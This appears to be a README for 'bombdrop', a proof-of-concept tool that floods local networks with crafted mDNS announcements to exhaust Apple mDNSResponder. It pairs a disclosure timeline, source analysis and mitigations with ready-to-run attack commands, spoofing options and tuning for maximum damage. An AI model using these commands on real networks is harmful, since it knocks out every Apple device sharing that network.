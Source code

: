 # bombdrop: Apple mDNS Cache Pressure Tool

## Overview


“Bombdrop: Weaponizing Multicast Against Apple’s mDNSResponder”
How a 20-year-old trust assumption in Apple’s networking stack enables denial-of-service across entire device fleets.

Disclosure Timeline (Apple mDNSResponder Vulnerability)
March 2025: Reported a multicast-based denial-of-service vulnerability affecting Apple’s mDNSResponder. Provided full PoC, technical analysis, video demo, and diagnostic data.
April–July 2025: Worked with Apple’s security team over several rounds of testing and feedback. Issue acknowledged. Apple indicated it would be addressed in macOS Tahoe 26.
July 2025: Tested against the Tahoe 26 beta — issue remained reproducible. Shared updated results, including 99.9% CPU usage on mDNSResponder, persistent app hangs, and service crashes.
September 2025: Apple closed the report and declined to issue a bounty. Their statement:
“This report does not qualify for an Apple Security Bounty.”

**FOR RESEARCH PURPOSES ONLY.**

bombdrop is a security research tool that demonstrates a critical vulnerability in Apple's mDNSResponder service. This tool floods networks with specially crafted multicast DNS (mDNS) announcements that can overwhelm the cache management systems in Apple devices, causing network-wide service degradation.
When executed on a local network, bombdrop can affect all connected Apple devices simultaneously, resulting in:

- Frozen web browsing in Safari
- Unresponsive AirDrop and AirPlay services
- Significant CPU usage and battery drain
- System-wide network performance issues
- Temporary denial of service for Bonjour-dependent applications
- Non-recoverable mDNSResponder causing MacOS to be unusable until a reboot.

This proof-of-concept tool highlights the need for more robust cache management in multicast DNS implementations, particularly in high-density networks where many devices share the same broadcast domain.


## Technical Background

mDNS operates on UDP port 5353 using the multicast address 224.0.0.251 and is implemented in the `mDNSResponder` daemon.

## The Vulnerability: Cache Management Under Pressure

Analysis of the mDNSResponder source code reveals design limitations in the DNS cache implementation that makes it vulnerable to exhaustion attacks:

### Technical Details

In `daemon.c`, the cache is initialized with a modest size:

```c
#define RR_CACHE_SIZE ((32*1024) / sizeof(CacheRecord))
static CacheEntity rrcachestorage[RR_CACHE_SIZE];
#define kRRCacheGrowSize (sizeof(CacheEntity) * RR_CACHE_SIZE)
```

From our code analysis, I can see the key implementation details:

1. **Pre-Request Condition**: The user must have an application open that interacts with mDNSResponder, such as opening AirPlay devices, using Apple Music, or even just browsing with Safari.

2. **Dynamic Cache Growth**: When the cache fills up, the `mDNS_GrowCache` function allocates more memory:
   ```c
   // in daemon.c
   else if (result == mStatus_GrowCache)
   {
       if (allocated >= kRRCacheMemoryLimit) return;  // Limited to 1MB on iOS devices
       allocated += kRRCacheGrowSize;
       CacheEntity *storage = mallocL("mStatus_GrowCache", sizeof(CacheEntity) * RR_CACHE_SIZE);
       if (storage) mDNS_GrowCache(m, storage, RR_CACHE_SIZE);
   }
   ```

3. **Memory Limits**: While iOS devices have a 1MB limit (`kRRCacheMemoryLimit`), macOS appears to have no hard upper limit:
   ```c
   #define kRRCacheMemoryLimit 1000000 // For now, we limit the cache to at most 1MB on iOS devices.
   ```

4. **Cache Management Complexity**: The cache management involves complex operations:
   - `CacheRecordAdd` for adding new records
   - `CheckCacheExpiration` for expiring records
   - `mDNS_PurgeCacheResourceRecord` for purging records
   - Hash-based record lookup through `CacheGroupForName`

### How bombdrop Exploits This

NOTE: Running this on MacOS will cause the mDNSResponder fight the POC. You should only run this on a Linux VM or a seperate system that doesn't run mDNSResponder as part of the core OS. 

For best results, use the following command:

```
go run bombdrop.go -i <your interface> -n 1000000 -type airplay -ttl-mode extreme -name-mode dynamic
```

Other examples: 

```
go run bombdrop.go -i ens160 -n 1000000 -type airplay -ttl-mode extreme -name-mode dynamic
```


```
Usage:
  sudo go run bombdrop.go -n 5000 [-debug] [-i eth0] [-b 224.0.0.251] [-c 10] [-type all]

Options:
  -n <num>         Number of devices to advertise (default: 1000)
  -debug           Enable debug logging
  -i <iface>       Network interface to use (default: system chosen)
  -b <ip>          Target IP address (default: 224.0.0.251)
  -s <ip>          Source IP address (default: system chosen)
  -c <count>       Number of announcement rounds (0 = infinite)
  -type <t>        Broadcast type: airplay, airdrop, homekit, airprint, or all (default: all)
  -spoof <network> Enable IP address spoofing with network CIDR (e.g., -spoof 192.168.1.0/24)
  -ttl <seconds>   TTL value in seconds (default: 7200)
  -ttl-mode <mode> TTL mode: normal, long, extreme (default: normal)
  -name-mode <m>   Device naming mode: static, dynamic, compare (default: mixed)
  -pregenerate     Pre-generate

Examples:
  # Basic usage with 5000 devices
  sudo go run bombdrop.go -n 5000

  # Specify network interface and only broadcast AirPlay
  sudo go run bombdrop.go -i eth0 -n 1000 -type airplay

  # Use broadcast instead of multicast and only broadcast HomeKit
  sudo go run bombdrop.go -b 192.168.1.255 -n 1000 -type homekit

  # Send 10 rounds of AirPrint announcements and exit
  sudo go run bombdrop.go -n 100 -c 10 -type airprint

Notes:
  - Building requires libpcap.
  - It's difficult to run this on MacOS due to the conflict with the mDNSResponder service.
  - Will work on VMs like VM Ware, Virtualbox, etc.
  - For multicast: 224.0.0.251 is the standard mDNS address
  - For broadcast: use your subnet's broadcast (typically x.x.x.255)
  - For /31 networks: there is no broadcast address, use multicast or direct IP
  - Root/admin privileges are usually required for multicast
```

For the best results:
1. Use randomized device names to ensure uniqueness, preventing cache consolidation
2. Set long TTLs to delay the `NextCacheCheck` time and prevent record expiration 
3. Announce multiple service types (AirPlay, AirDrop, HomeKit, AirPrint)
4. Include varying record sizes to exercise different cache storage paths

For the worst results: I use 1000000 devices with Airplay only. Airplay seems to be the worst case scenario.

When a target device receives these announcements, each unique record triggers the `CreateNewCacheEntry` process. Under sufficient pressure, the cache management algorithms struggle to efficiently prioritize and evict records.

### Impact

As the mDNSResponder's cache becomes overwhelmed:

1. Cache lookups become increasingly expensive (traversing large hash chains)
2. Memory usage increases, potentially reaching system limits
3. CPU on mDNSResponder is reached at 100% it appears to be single threaded. Once mDNSResponder is saturated, it can no longer respond to any other requests.
4. The `NextCacheCheck` processing becomes more CPU intensive
5. Network operations dependent on mDNS become sluggish or fail
6. All Bonjour-based services experience degraded performance

Sometimes mDNSResponder will not recover. I haven't figured out what the condition is that casues it, seems like when we mess around with different TTLs it hits some unrecoverable condition. Reboot or a kill -9 of mDNSResponder seems to fix it.

I've also seen AppleTVs and iPhones crash when the attack is happening.


### Affected Versions

This vulnerability affects Apple operating systems with the identified mDNSResponder implementation:

- macOS (through at least 14.x)
- iOS/iPadOS (through at least 17.x) 
- tvOS (through at least 17.x)
- watchOS (through at least 10.x)

Apple M* chips seem to be impacted more than Intel chips. Not sure why but I didn't really test it extensively.

### Potential Mitigations

In my disclosure to Apple, I proposed several mitigations to improve mDNSResponder’s resilience under cache exhaustion, including: limiting the number of records accepted per source IP or MAC, rate-limiting high-volume multicast announcements, improving eviction priority in cache management, and implementing stricter TTL handling to avoid record retention abuse. I also pointed out that mDNSResponder processes multicast traffic without scrutiny, on a single thread, and trusts all records equally — a dangerous assumption in 2025’s untrusted network environments.
One telling comment in Apple’s own source code reinforces this design flaw:

```
// All records in a DNS response packet are treated as equally valid statements of truth. If we want
// to guard against spoof responses, then the only credible protection against that is cryptographic
// security, e.g. DNSSEC., not worrying about which section in the spoof packet contained the record.
```

This trust model, suitable for the early 2000s, no longer holds up in hostile or crowded networks like schools, Apple's own stores, airports, or ISP-shared segments. Apple should treat unsolicited multicast data with suspicion and enforce boundaries within mDNSResponder accordingly.
